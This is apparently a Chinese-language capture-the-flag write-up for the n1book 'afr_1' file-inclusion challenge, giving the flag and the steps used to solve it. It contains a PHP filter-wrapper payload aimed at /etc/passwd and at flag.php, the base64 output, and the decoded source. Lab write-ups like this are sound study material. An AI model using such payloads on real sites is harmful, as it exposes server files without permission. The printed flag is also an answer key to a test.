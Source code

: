 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{afr_1_solved}`

## 思路
1. 访问环境时注意参数`?p=hello`，可以遍历一下命令`cmd、ls、whoami、flag`等，当输入**flag**时，提示nonono，开始尝试php伪协议。  
**此处p=hello表示的应该是指向hello.php文件**
![](./images/afr1.png)
2. 这里我首先通过伪协议判断能不能读取/etc/passwd，没有反馈，在这里卡了很久  
`php://filter/read=convert.base64-encode/resource=/etc/passwd`
3. 后来修改/etc/passwd为flag，获得base64码  
`PD9waHAKZGllKCdubyBubyBubycpOwovL24xYm9va3thZnJfMV9zb2x2ZWR9`
4. 解码得到`flag.php`
```php
<?php
die('no no no');
//n1book{afr_1_solved}
```
5. 同理`hello.php`，与之前猜测一致
```php
<?php

echo "hello world!";
```

## 总结
这种题目一定要抓住关键词，本题给了**hello关键字**，应该立马联想到伪协议读取hello，然后再读取passwd等文件